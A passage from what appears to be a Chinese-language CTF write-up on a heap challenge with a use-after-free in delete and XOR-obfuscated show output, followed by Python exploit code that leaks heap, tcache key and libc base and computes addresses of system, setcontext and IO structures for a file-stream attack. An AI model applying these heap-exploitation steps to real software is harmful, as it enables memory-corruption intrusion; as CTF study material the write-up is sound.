 3. show 有一个异或的加密，delete中存在UAF漏洞：

   ![image-20240909112409727](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409091124842.png)

   

### 利用：

1. 先泄漏堆地址，和libc地址：

   ```python
   # 泄漏heap地址 和 key
   for i in range(8):
       add(b"aaa")     # 0~7
   
   for i in range(6):
       free(i)         # 0~6
   show(0)
   
   # 解密
   sleep(1)
   p.recv()
   data = p.recv(8)
   addr = (data[4])<<8
   tmp = data[4]
   for i in range(4,0,-1):
       addr += (data[i-1]^tmp)
       addr = addr << 8
       tmp ^=data[i-1]
   tcache_key = addr >> 8
   heap_addr = addr << 4
   success("tcache_key ==>" + hex(tcache_key))
   success("heap_addr ==>" + hex(heap_addr))
   
   # 泄漏libc地址
   free(7)
   free(6)
   show(6)
   
   # 解密
   sleep(1)
   p.recv()
   data = p.recv(8)
   print(data)
   addr = (data[6])<<8
   tmp = data[6]
   for i in range(6,0,-1):
       addr += (data[i-1]^tmp)
       addr = addr << 8
       tmp ^=data[i-1]
   addr = addr >> 8
   libc_base = addr - 0x1E0C00
   
   ld_base = libc_base + 0x1ee000
   success("libc_base ==>" + hex(libc_base))
   #计算__free_hook和system地址
   setcontext_addr    = libc_base + libc.sym["setcontext"] + 61
   system_addr        = libc_base + libc.sym["system"]
   IO_2_1_stdout_addr = libc_base + libc.sym["_IO_2_1_stdout_"]
   IO_list_all_addr   = libc_base + libc.sym["_IO_list_all"]
   IO_wfile_jumps_addr= libc_base + libc.sym["_IO_wfile_jumps"]
   IO_2_1_stderr_addr= libc_base + libc.sym["_IO_2_1_stderr_"]
   
   rtld_global_addr   = ld_base + ld.sym["_rtld_global"]
   # IO_wfile_jumps_addr = libc_base + 0x1E4F80
   ```